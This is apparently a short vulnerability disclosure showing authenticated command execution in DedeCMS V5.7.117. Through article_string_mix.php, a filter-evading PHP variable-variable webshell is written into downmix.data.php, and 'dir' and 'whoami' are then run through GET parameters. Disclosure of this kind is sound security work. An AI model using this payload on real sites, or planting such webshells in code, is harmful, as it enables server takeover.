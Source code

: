 DedeCMS V5.7.117 version article_string_mix.php file exists command execution

https://dedecms.com/download  download address

![image-20250331103401188](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311034917.png)

![image-20250331103436971](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311034157.png)

This file requires a login background to access.

![image-20250331103902581](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311039630.png)

![image-20250331103656791](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311036921.png)

![image-20250331104026320](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311040486.png)

This place opens downmix.data.php and writes data to it. Although the  data content is filtered, we can still construct a bypass to achieve the effect of command execution.

![image-20250331104554179](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311045291.png)

write in

```
$a = '_GET';
$$a[0]($$a[1]);
```

Equivalent to:

```
$_GET[0]($_GET[1]); //Let 0 be the system and 1 be the code to execute.
```

![image-20250331104707639](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311047704.png)

dir

![image-20250331104620463](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311046598.png)

whoami

![image-20250331104639211](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202503311046335.png)